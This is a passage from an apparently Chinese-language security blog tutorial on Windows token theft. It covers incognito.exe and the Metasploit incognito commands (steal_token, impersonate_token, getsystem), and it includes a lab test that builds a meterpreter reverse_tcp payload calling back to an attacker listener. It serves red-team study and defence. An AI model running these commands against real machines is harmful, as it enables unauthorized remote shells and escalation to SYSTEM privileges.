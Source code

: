 
利用该token执行calc.exe:

```
incognito.exe execute -c "TEST\a" calc.exe
```

后台显示进程calc.exe的用户名为`a`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/2-2.png)


## 0x03 Metasploit中的incognito
---

在Metasploit中，可使用incognito实现token窃取，常用命令如下：

加载incognito：`load incognito`

列举token：`list_tokens -u`

查看当前token：`getuid`

提示至system权限：`getsystem`

token窃取：`impersonate_token "NT AUTHORITY\\SYSTEM"`

从进程窃取：`steal_token 1252`

返回之前token：`rev2self` or `drop_token`


### 实际测试

Client：

```
msfpayload -p windows/meterpreter/reverse_tcp LHOST=192.168.81.142 LPORT=44444 X >test.exe
```


Server：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LPORT 44444
set LHOST 192.168.81.142
exploit
```

执行`getsystem`获得system权限

pid 1252的权限为当前用户，执行`steal_token 1252`， 将权限切换到`WIN-R7MM90ERBMD\a`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/2-3.png)

执行`impersonate_token "NT AUTHORITY\\SYSTEM"`将权限切换至`system`
